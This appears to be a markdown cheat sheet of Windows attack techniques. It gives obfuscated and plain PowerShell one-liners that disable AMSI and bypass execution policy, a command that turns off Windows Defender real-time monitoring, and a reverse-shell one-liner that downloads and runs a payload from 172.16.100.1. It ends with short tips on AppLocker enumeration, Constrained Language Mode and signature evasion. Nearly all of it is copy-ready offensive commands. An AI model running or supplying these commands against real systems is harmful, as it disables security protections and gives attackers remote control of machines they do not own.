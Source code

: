 # Bypass Technique
> test

## ASMI
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Execution Policy
bypass execution retriction
```powershell
powershell -ep bypass
```
## Window Defender
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

revshell
```powershell
powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.1/Invoke-PowerShellTcp.ps1'''); Power -Reverse -IPAddress 172.16.100.1 -Port 443
```

## Applocker
see app locker policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Constraint Language Mode
It cannot run with dot in the front, you could modified it by appendindg the function you want to call on the end of the ps file.

## Signature base
Changing the name of the ps file and/or functions